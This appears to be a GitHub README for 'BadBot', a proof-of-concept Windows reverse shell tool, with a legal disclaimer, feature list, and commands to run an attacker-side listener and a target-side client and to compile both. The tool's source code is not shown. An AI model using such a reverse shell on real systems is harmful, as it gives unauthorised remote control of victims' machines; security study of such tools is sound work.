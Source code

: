 # BadBot Windows Reverse Shell 🪟

## 📜 Overview

BadBot Windows Reverse Shell is a proof-of-concept tool designed to demonstrate reverse shell capabilities on Windows systems. Use this tool only in a legal and ethical manner. Misuse may result in severe legal consequences.

![My GIF](https://gyazo.com/245fd3995dbe86e3a4d54c374fcb6b6b)

## ✨ Features

- 🌐 Establish a reverse shell connection from a Windows machine
- ⚙️ Supports basic command execution

## 💡 Requirements

- 🖥️ Windows operating system
- 🛠️ Golang / GCC must be installed if you want to compile
- 🌍 Network access to a remote server

## 🚀 Usage

1. **The Server (Attacker's Side)**

    ```bash
    attacker > $ ./BadBot-Server.exe [Port]
    ```

2. **Client (Target's Side)**

    ```bash
    target > $ ./BadBot-Client.exe [Port]
    ```

## 🔨 Compilation
1. **Server**
   
    ```bash
    $ go build -o BadBot-Server.exe
    ```
2. **Client**

    ```bash
    $ gcc main.c -lws2_32 -Wall -Wextra -Wpedantic -o BadBot-Client.exe

    ```

